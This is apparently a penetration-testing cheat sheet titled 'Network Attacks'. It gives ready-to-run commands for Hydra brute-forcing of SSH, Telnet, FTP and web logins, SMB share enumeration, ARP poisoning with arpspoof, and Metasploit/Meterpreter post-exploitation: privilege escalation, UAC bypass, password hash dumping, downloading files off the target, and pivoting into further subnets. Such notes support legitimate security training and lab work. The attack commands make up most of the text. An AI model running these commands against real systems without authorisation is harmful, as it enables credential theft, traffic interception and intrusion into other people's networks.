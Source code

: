 ```yaml
---
description: SSH, Telnet, RDP, HTTP auth, Windows shares
---
```


# Network Attacks

## Hydra <a href="#hydra" id="hydra"></a>

### SSH <a href="#ssh" id="ssh"></a>

```
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet <a href="#telnet" id="telnet"></a>

```
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP <a href="#ftp" id="ftp"></a>

```
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login <a href="#post-form-login" id="post-form-login"></a>

```
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /etc/john/rockyou.txt for passwords.
* /usr/share/ncrack/minimal.usr for users.
* Sometimes you can just use the users list for the passwords too.

## Shares

### Shares Enumeration

```
nmblookup -A 10.10.10.10
```

### List Shares

```
smbclient -L //10.10.10.10 -N
```

### Mount Share

```
smbclient //10.10.10.10/sharename -N
```

### enum4linux <a href="#enum-4-linux" id="enum-4-linux"></a>

```
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, which you have to implement using smbclient.

## ARP Poisoning <a href="#arp-poisoning" id="arp-poisoning"></a>

### arpspoof <a href="#arpspoof" id="arpspoof"></a>

\<interface> == eth0/tap0

```
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic <a href="#basic" id="basic"></a>

```
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter <a href="#meterpreter" id="meterpreter"></a>

**bind\_tcp**: runs a server process on the target machine that waits for connections from the attacker machine.

**reverse\_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #windows privesc
bypassuac #if windows privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

### Routing in Metasploit

Background the meterpreter of the session where you found the other subnet accessible.

```
use post/multi/manage/autoroute
route add <subnet> <session-id>
```

You have to input the session id of the meterpreter session.

Now the subnet is accessible in the whole of Metasploit-Framework.
